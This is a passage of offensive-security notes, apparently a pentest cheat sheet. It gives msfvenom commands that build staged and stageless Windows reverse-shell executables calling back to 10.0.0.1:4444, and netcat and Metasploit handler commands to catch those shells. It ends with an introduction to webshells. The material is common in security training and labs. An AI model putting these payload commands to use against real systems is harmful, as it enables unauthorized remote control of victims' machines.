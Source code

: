 **Staged Payloads**

- Contain **`/meterpreter/`** In the name.
- Example:
    
    ```bash
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f exe -o staged.exe
    ```
    
    - **Requires Metasploit handler** (**`exploit/multi/handler`**).

**Stageless Payloads**

- Contain **`/shell_`** in the name.
- Example:
    
    ```bash
    msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f exe -o stageless.exe
    ```
    
    - **Works with Netcat/Socat** (no Metasploit required).

---

### **3. Catching Shells**

**Netcat (Basic)**

```bash
nc -lvnp 4444
```

**Metasploit Handler (Advanced)**

```bash
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 10.0.0.1
set LPORT 4444
run
```

---

## Webshell

A **webshell** is a malicious script uploaded to a web server that allows an attacker to execute commands remotely via HTTP requests. It acts as a **backdoor**, enabling control over the server without direct access.

---

### **1. How Webshells Work**

- Uploaded via **file upload vulnerabilities**, **RCE exploits**, or **compromised credentials**.
- Written in **server-side languages** (PHP, ASP, JSP, Python, etc.).
- Accessed via **browser** or **tools like `curl`/Burp Suite**.
